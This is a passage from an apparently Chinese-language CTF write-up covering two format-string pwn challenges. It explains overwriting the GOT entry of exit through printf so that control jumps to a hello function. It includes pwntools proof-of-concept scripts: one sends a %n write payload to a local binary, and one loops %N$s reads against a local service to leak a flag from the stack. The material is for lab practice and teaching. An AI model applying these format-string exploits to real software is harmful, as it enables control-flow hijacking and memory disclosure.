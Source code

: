 到这里就很明白了，通过 `printf` 更改 `got` 表中 `exit` 所对应的值为 `hello` 函数。

这样，在执行 `exit` 的时候，将通过 `plt` 表在跳转到 `hello` 函数。

因为接下来都是很正常的操作了，所以，直接放 `poc` 了

`poc` ：

```python
# /usr/env/bin python
# -*- coding: utf-8 -*-

from pwn import *


def main():
    exit_got_addr = []
    for nums in range(4):
        exit_got_addr.append(struct.pack('<I', 0x08049724+nums))
    payload = b''.join(exit_got_addr) + b'%164c' + b'%4$n' + b'%208c' + b'%5$n' + b'%128c' + b'%6$n' + b'%4c' + b'%7$n'
    exp_file = process('./format4')
    exp_file.sendline(payload)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```



## 0x22 goodluck writeup

这道题没什么可说的，直接把栈上的 `flag` 打出来即可。

`poc` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def main(payload):
    exp_file = remote("127.0.0.1", 10000)
    exp_file.recvuntil("what's the flag")
    exp_file.sendline(payload)
    print(exp_file.recvall())


if __name__ == '__main__':
    for nums in range(0, 10):
        main("%{nums}$s".format(nums=nums))
```
